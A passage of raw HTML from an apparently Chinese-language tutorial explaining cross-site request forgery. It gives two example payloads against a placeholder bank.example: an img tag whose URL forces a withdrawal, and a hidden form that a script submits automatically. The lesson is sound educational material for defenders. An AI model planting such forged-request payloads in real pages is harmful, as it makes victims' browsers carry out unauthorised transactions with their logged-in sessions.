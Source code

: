<span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="xml hljs"><code class="html" style="word-break:break-word;white-space:initial"> <span class="hljs-tag">&lt;<span class="hljs-name">img</span> <span class="hljs-attr">src</span>=<span class="hljs-string">&quot;http://bank.example/withdraw?amount=10000&amp;for=hacker&quot;</span> &gt;</span> </code></pre><p>&#x5728;&#x53D7;&#x5BB3;&#x8005;&#x8BBF;&#x95EE;&#x542B;&#x6709;&#x8FD9;&#x4E2A;img&#x7684;&#x9875;&#x9762;&#x540E;&#xFF0C;&#x6D4F;&#x89C8;&#x5668;&#x4F1A;&#x81EA;&#x52A8;&#x5411;<code>http://bank.example/withdraw?account=xiaoming&amp;amount=10000&amp;for=hacker</code>&#x53D1;&#x51FA;&#x4E00;&#x6B21;HTTP&#x8BF7;&#x6C42;&#x3002;bank.example&#x5C31;&#x4F1A;&#x6536;&#x5230;&#x5305;&#x542B;&#x53D7;&#x5BB3;&#x8005;&#x767B;&#x5F55;&#x4FE1;&#x606F;&#x7684;&#x4E00;&#x6B21;&#x8DE8;&#x57DF;&#x8BF7;&#x6C42;&#x3002;</p><ul><li>POST&#x7C7B;&#x578B;&#x7684;CSRF</li></ul><p>&#x8FD9;&#x79CD;&#x7C7B;&#x578B;&#x7684;CSRF&#x5229;&#x7528;&#x8D77;&#x6765;&#x901A;&#x5E38;&#x4F7F;&#x7528;&#x7684;&#x662F;&#x4E00;&#x4E2A;&#x81EA;&#x52A8;&#x63D0;&#x4EA4;&#x7684;&#x8868;&#x5355;&#xFF0C;&#x5982;&#xFF1A;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text=" &lt;form action=&quot;http://bank.example/withdraw&quot; method=POST&gt;
    &lt;input type=&quot;hidden&quot; name=&quot;account&quot; value=&quot;xiaoming&quot; /&gt;
    &lt;input type=&quot;hidden&quot; name=&quot;amount&quot; value=&quot;10000&quot; /&gt;
    &lt;input type=&quot;hidden&quot; name=&quot;for&quot; value=&quot;hacker&quot; /&gt;
&lt;/form&gt;
&lt;script&gt; document.forms[0].submit(); &lt;/script&gt; " title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="xml hljs"><code class="html"> <span class="hljs-tag">&lt;<span class="hljs-name">form</span> <span class="hljs-attr">action</span>=<span class="hljs-string">&quot;http://bank.example/withdraw&quot;</span> <span class="hljs-attr">method</span>=<span class="hljs-string">POST</span>&gt;</span>
    <span class="hljs-tag">&lt;<span class="hljs-name">input</span> <span class="hljs-attr">type</span>=<span class="hljs-string">&quot;hidden&quot;</span> <span class="hljs-attr">name</span>=<span class="hljs-string">&quot;account&quot;</span> <span class="hljs-attr">value</span>=<span class="hljs-string">&quot;xiaoming&quot;</span> /&gt;</span>
    <span class="hljs-tag">&lt;<span class="hljs-name">input</span> <span class="hljs-attr">type</span>=<span class="hljs-string">&quot;hidden&quot;</span> <span class="hljs-attr">name</span>=<span class="hljs-string">&quot;amount&quot;</span> <span class="hljs-attr">value</span>=<span class="hljs-string">&quot;10000&quot;</span> /&gt;</span>
    <span class="hljs-tag">&lt;<span class="hljs-name">input</span> <span class="hljs-attr">type</span>=<span class="hljs-string">&quot;hidden&quot;</span> <span class="hljs-attr">name</span>=<span class="hljs-string">&quot;for&quot;</span> <span class="hljs-attr">value</span>=<span class="hljs-string">&quot;hacker&quot;</span> /&gt;</span>
<span class="hljs-tag">&lt;/<span class="hljs-name">form</span>&gt;</span>